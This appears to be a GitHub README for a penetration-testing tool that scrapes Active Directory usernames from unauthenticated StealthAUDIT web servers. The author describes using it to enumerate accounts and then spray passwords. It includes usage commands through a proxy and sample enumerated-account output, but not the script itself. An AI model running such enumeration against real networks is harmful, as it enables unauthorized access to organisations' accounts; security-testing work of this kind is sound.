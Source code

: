 ![stealth_audit](https://user-images.githubusercontent.com/34954477/162237700-5fed2379-0f1d-46f7-ac4d-bcecfa6239c6.png)

# Stealth_Audit_Scraper
This tool was created to scrape the <a href ="https://stealthbits.com/stealthaudit-for-active-directory-product/">StealthAUDIT Active Directory Auditing Tool</a>. Currently, it scrapes the users name and NT account name from `Active Directory > Users > User Token`. I wrote this because I had no foothold on a network and came across this gem. I immedately scraped all AD users then started spraying passwords! Right now this tool only works with passwordless StealthAUDIT instances. Good luck, have fun!

## stealth_scrape.py usage:
```
usage: stealth_audit_scraper.py [-h] [-o OUTFILE] [-u URL] [-p PROXY] [-pp PROXY_PORT]

StealthAUDIT Scraper >:D

optional arguments:
  -h, --help            show this help message and exit
  -o OUTFILE, --outfile OUTFILE
                        The file to write users to.
  -u URL, --url URL     The webserver in format {http://10.0.0.1:80}.
  -p PROXY, --proxy PROXY
                        The proxy ip in format {10.0.0.1}.
  -pp PROXY_PORT, --proxy_port PROXY_PORT
                        The proxy port in format {1080}.
```

   Basic usage of script:
   
    python3 stealth_scrape.py -u http://10.20.8.85 -p 127.0.0.1 -pp 1080 -o accounts.txt

   Advanced usage of stealth_scrape.py:
   
    $ python3 stealth_scrape.py -u http://10.15.8.20
    [+] Attempting to visit http://10.15.8.20
    [+] Clearing all cookies...
    [+] Dropping down menu
    NT_Account:contoso\administrator	Name:Administrator
    NT_Account:contoso\susanb	Name:Barin, Susan
    
   Example output of ad_users.txt:
   
    contoso\swilliams:Williams, Susan
    contoso\thawk:Hawk, Tony
    contoso\batman:Man, Bat
    contoso\dnutz:Nutz, Deez
    contoso\kmitnick:Mitnick, Kevin
    contoso\rmudge:Mudge, Raphael
    contoso\tmutton:Mutton, Tim
